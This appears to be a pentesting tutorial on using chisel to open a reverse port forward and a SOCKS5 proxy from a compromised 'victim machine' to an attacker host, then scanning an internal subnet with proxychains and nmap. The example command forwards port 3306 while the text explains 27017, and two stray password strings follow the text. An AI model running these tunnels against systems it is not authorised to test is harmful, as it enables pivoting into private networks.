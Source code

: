 soc# Port Forwarding

Port forwarding with `chisel` is quite simple. For example, if you discovered an open MongoDB service running on a remote computer and wanted to forward traffic from a local port to that remote MongoDB service. Here’s how you could achieve that with `chisel` :

## On the Attacking Machine

chisel server -p 3477 --reverse

-   `server`: run the server mode
-   `-p` : port for the server to listen on
-   `--reverse`: allows reverse port forwarding

## On the Victim Machine

chisel client 13.37.13.37:3477 R:2222:127.0.0.1:3306/tcp

-   `client` : run the client mode
-   `13.37.13.37:3477` : the IP address of the attacker’s machine and the port that was specified in the `chisel server` command
-   `R:2222:127.0.0.1:27017/tcp`: the `R` means we want to perform a reverse port forward; `2222` is the port number we want to use to route traffic through on the attacker’s machine; `127.0.0.1:27017` is the IP address/port we want to route our traffic to on the client’s machine; `/tcp` means we want to use the TCP protocol.

The previous commands will allow us to access the MongoDB service running locally on the remote machine on port 2222 on the attacking machine.

Now that we’ve seen how to perform a port forward with `chisel`, let’s create a SOCKS proxy so that we can route all of our traffic with the victim machine.

# SOCKS Proxies

SOCKS proxies capabilities was a recent addition to `chisels` capabilities which I think is awesome. Creating a SOCKS is extremely useful during a pentest, for example, because you can use a tool like Proxychains to route all of the traffic from your attacker tools through the victim’s machine — effectively making it appear as if traffic were originating from the victim’s machine. Here’s how we can set up a SOCKS proxy with `chisel`:

## On the Attack Machine

chisel server -p 3477 --socks5 --reverse

-   `-p`: port for the server to listen on
-   `--socks5`: start an internal SOCKS5 proxy
-   `--reverse`: allows for reverse port forwarding

## On the Victim Machine

chisel client 13.37.13.37:3477 R:5000:socks

-   `13.37.13.37:3477` : the IP address of the attacker machine and the port number specified in the `chisel server` command
-   `R:5000:socks:`the `R` means we want to perform a reverse port forward; `5000` will be the port on the attacker machine that will act as the entry point to our SOCKS5 proxy; and `socks` simply means we are using the SOCKS protocol.

## Proxychains

Configuring Proxychains to use our accessible SOCKS proxy simply requires that we add an entry to the bottom of `/etc/proxychains.conf` under `[ProxyList]` section. We need to specify the IP address and port of the SOCKS proxy we want to route our traffic through. In this case, we want to specify `socks5 127.0.0.1 5000` since our SOCKS proxy is listening on localhost port 5000:

![](https://miro.medium.com/max/700/1*mhBYMO2hZA0ZM5sCgwebLQ.png)

Now we can run the following command on the attacker machine to run Nmap through the victim's machine:

proxychains -q nmap -T4 -sn 10.10.10.0/24

And that’s all you need to know to harness the power of `chisel` — Happy Hacking!

PleaseChangeTheAdminPassword
PleaseChangeTheRootPassword
